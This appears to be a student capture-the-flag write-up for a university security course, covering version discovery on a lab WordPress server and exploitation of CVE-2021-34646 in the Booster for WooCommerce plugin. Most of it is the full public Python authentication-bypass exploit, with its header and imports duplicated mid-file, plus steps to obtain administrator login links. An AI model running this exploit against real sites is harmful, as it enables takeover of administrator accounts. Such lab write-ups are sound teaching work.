






# FSI-CTFS: Week #4

**Goal:** Login with an administrator account in a Wordpress server, by exploiting a CVE with a known exploit.

**Targeted address**: [CTF-FSI](http://ctf-fsi.fe.up.pt:5001), only availabe inside FEUP's network.

#### **Identify valuable information by browsing the web application.**

|   Plugin/Framework   |  Version   |  Source Code  |
| :--: | :--: | :--: |
| Wordpress | 5.8.1 | |
| WooCommerce | 5.7.1 | 
| Booster for WooCommerce | 5.4.3 |  |

#### **Vulnerability Search**

  * **Wordpress 5.8.1** - CVE's affecting this WP version haven't yet been identified nor reported.
  * **WooCommerce 5.7.1** - CVE's affecting this WooCommerce version haven't yet been identified nor reported.
  * **Booster for WooCommerce 5.4.3** - Versions up to, and including, 5.4.3, of the Booster for WooCommerce WordPress plugin are **vulnerable to authentication bypass**.

**Flag 1 Identified ->** flag{[CVE-2021-34646](https://nvd.nist.gov/vuln/detail/CVE-2021-34646)}


#### **Search for an available exploit online**

* [Exploit](https://www.exploit-db.com/exploits/50299)

``` python 
# Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64  # Exploit Title: WordPress Plugin WooCommerce Booster Plugin 5.4.3 - Authentication Bypass
# Date: 2021-09-16
# Exploit Author: Sebastian Kriesten (0xB455)
# Contact: https://twitter.com/0xB455
#
# Affected Plugin: Booster for WooCommerce
# Plugin Slug: woocommerce-jetpack
# Vulnerability disclosure: https://www.wordfence.com/blog/2021/08/critical=-authentication-bypass-vulnerability-patched-in-booster-for-woocommerce/
# Affected Versions: <= 5.4.3
# Fully Patched Version: >= 5.4.4
# CVE: CVE-2021-34646
# CVSS Score: 9.8 (Critical)
# Category: webapps
#
# 1:
# Goto: https://target.com/wp-json/wp/v2/users/
# Pick a user-ID (e.g. 1 - usualy is the admin)
#
# 2:
# Attack with: ./exploit_CVE-2021-34646.py https://target.com/ 1
#
# 3:
# Check-Out  out which of the generated links allows you to access the system
#
import requests,sys,hashlib
import argparse
import datetime
import email.utils
import calendar
import base64

B = "\033[94m"
W = "\033[97m"
R = "\033[91m"
RST = "\033[0;0m"

parser = argparse.ArgumentParser()
parser.add_argument("url", help="the base url")
parser.add_argument('id', type=int, help='the user id', default=1)
args = parser.parse_args()
id = str(args.id)
url = args.url
if args.url[-1] != "/": # URL needs trailing /
      url = url + "/"

verify_url= url + "?wcj_user_id=" + id
r = requests.get(verify_url)

if r.status_code != 200:
      print("status code != 200")
      print(r.headers)
      sys.exit(-1)

def email_time_to_timestamp(s):
  tt = email.utils.parsedate_tz(s)
  if tt is None: return None
  return calendar.timegm(tt) - tt[9]

date = r.headers["Date"]
unix = email_time_to_timestamp(date)

def printBanner():
  print(f"{W}Timestamp: {B}" + date)
  print(f"{W}Timestamp (unix): {B}" + str(unix) + f"{W}\n")
  print("We need to generate multiple timestamps in order to avoid delay related timing errors")
  print("One of the following links will log you in...\n")

printBanner()

for i in range(3): # We need to try multiple timestamps as we don't get the exact hash time and need to avoid delay related timing errors
      hash = hashlib.md5(str(unix-i).encode()).hexdigest()
      print(f"{W}#" + str(i) + f" link for hash {R}"+hash+f"{W}:")
      token='{"id":"'+ id +'","code":"'+hash+'"}'
      token = base64.b64encode(token.encode()).decode()
      token = token.rstrip("=") # remove trailing =
      link = url+"my-account/?wcj_verify_email="+token
      print(link + f"\n{RST}")

```

#### **Exploit the Vulnerability**

 * Pick a user-ID, accessing http://ctf-fsi.fe.up.pt:5001/wp-json/wp/v2/users/ 
 

 * Download the exploit and run it ./exploit.py http://ctf-fsi.fe.up.pt:5001/ 1

  

 * Insert one of the links above in the browser, and you should be logged in as administrator

 

 * Access [WordPress management page](http://ctf-fsi.fe.up.pt:5001/wp-admin/edit.php)

 * **Capture the flag**

  